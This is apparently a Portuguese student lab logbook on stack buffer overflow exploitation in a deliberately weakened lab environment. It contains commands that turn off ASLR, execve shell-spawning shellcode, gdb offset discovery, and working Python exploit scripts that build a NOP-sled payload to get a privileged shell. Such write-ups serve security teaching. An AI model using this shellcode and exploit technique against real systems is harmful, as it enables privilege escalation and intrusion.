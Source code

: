 # LOGBOOK5 - Buffer Overflow

## Setup

Antes de iniciarmos o guião da semana 5, devemos desligar algumas proteções do sistema operativo (para nos facilitar), tais como a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.

```
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
```
## Task 1

Primeiramente, executamos o seguinte código :

```c
#include <stdio.h>
int main(){
	char*name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```

Reparamos que abriu uma shell na mesma pasta onde foi executado o programa.

Depois executamos o call_shellcode.c:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e""\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57""\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f""\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31""\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;
int main(int argc, char**argv){
    char code[500];strcpy(code, shellcode); // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                 // Invoke the shellcode from the stack
    return 1;
}
```

Ao executar este ficheiro usando o `make`, reparamos que é criado 2 ficheiros `a32.out a64.out`. Quando executamos qualquer um deles, reparamos que é aberto um shell.

## Task 2

Após analisar o ficheiro stack.c, reparamos que a vulnerabilidade tratava-se do seguinte: a função strcpy é usada para copiar o conteúdo do parâmetro str para o array buffer. No entanto, a função strcpy não tem verificação para garantir que o tamanho da string (que pode ter até um máximo de 517) não exceda o tamanho do buffer (BUF_SIZE = 100). Se o comprimento da stringstr for maior que o tamanho do buffer, irá substituir a memória adjacente, levando a um comportamento inesperado, que neste caso podemos aproveitar para explorar a vulnerabilidade.

Também reparamos que executando o make, é criado vários ficheiro do género stack-Lx , onde x varia entre 1 e 4. A diferença entre estes ficheiros é o valor do BUF_SIZE.

![files](Images/files.png)

## Task 3

Primeiramente, criamos um ficheiro badfile e executamos o make para criar os ficheiros necessários para fazer debug,e executamos os seguintes comandos:

```
$ touch badfile 
$ gdb stack-L1-dbg 
...
gdb-peda$ b bof 
...
gdb-peda$ run 
...
gdb-peda$ next 
...
gdb-peda$ p $ebp # Obtemos o valor do ebp
$1 = (void *) 0xffffcaf8
gdb-peda$ p &buffer # Obtemos o endereço do início do buffer
$2 = (char (*)[100]) 0xffffca8c
```

![code1](Images/code1.png)
![code1](Images/code2.png)

Após obtermos os valores necessários, vamos usar o programa python para colocar conteúdo no nosso badfile, mas para tal temos de fazer alterações necessárias para funcionar:

Na variável shellcode vamos meter o valor shellcode de 32-bits que executa uma shell:
```py
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')
```

De seguida, alterou-se o valor do start para guardar o valor do shell code no fim da lista.

```py
start = 400
```

Foi calculado o novo endereço de retorno que aponta para o código do shell a ser executado.

```py
ret    = 0xffffcaf8 + 200
```

Usando os dois endereços obtidos durante o debug, determinou-se a localização do endereço de retorno em relação ao início do array (offset)

```py
offset = 0xffffcaf8 - 0xffffca8c + 4
```

Após executar o ficheiro ./exploit.py e ./stack-L1 conseguimos obter acesso a uma shell com permissões:

![shell](Images/shell.png)

## Task 4

Agora neste, a diferença é que não podemos usar o `p $ebp` para descobrir o valor do ebp.

Em primeiro lugar executamos as seguintes instruções no terminal para obter mais informações:

```
$ touch badfile 
$ gdb stack-L2-dbg 
...
gdb-peda$ b bof 
...
gdb-peda$ run 
...
gdb-peda$ next 
...
gdb-peda$ p &buffer # Obtemos o endereço do início do buffer
$2 = (char (*)[100]) 0xffffca8c
```

De seguida modificamos o ficheiro exploit.py:

```py

#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Metemos o shellcode no fim do badfile
content[517 - len(shellcode):] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
# Adicionamos 300 para fazer o salto
ret    = 0xffffca50 + 300         # Change this number  

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

##Brute-force em cada endereço para descobrir o endereço. Como cada endereço tem 4 bytes, fazemos 200/4 = 50
for offset in range(50):
	content[offset*L:offset*4 + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```


Por fim executamos o código:
```
./exploit.py
./stack-L2
```

E obtivemos:

![shell2](Images/shell2.png)
